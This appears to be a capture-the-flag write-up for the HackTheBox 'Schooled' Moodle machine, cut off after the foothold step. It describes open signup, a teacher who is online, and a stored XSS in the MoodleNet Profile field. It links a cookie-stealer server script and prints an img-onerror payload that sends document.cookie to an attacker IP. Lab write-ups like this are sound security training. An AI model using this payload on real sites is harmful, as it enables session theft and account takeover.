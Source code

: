 Visiting the page lets us signup without a confirmation!

Create an account next . While signing up the mail naming convention is name@student.schooled.htb.

After unsuccesfull attempts to upload a payload and get rce , 
what caught my eye was Manuel Phillips (teacher) was online and the owner of the maths course.
Possible xss?

On Looking for the Moodle versions and [CVE] we got 2 major.

Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. Maybe an xss is possible here? 

----------------------------------------------------------------------------------------------------

### FOOTHOLD:

I setup my xss-server w this simple python script ..... you can use a basic python server or nc . 
[Link to xss-server script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py)


- Start the server. 

- Enroll in the maths course .

- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`

- paste it in the user settings section

<p align="center">
 <img src="images/schooled6.png">
</p>
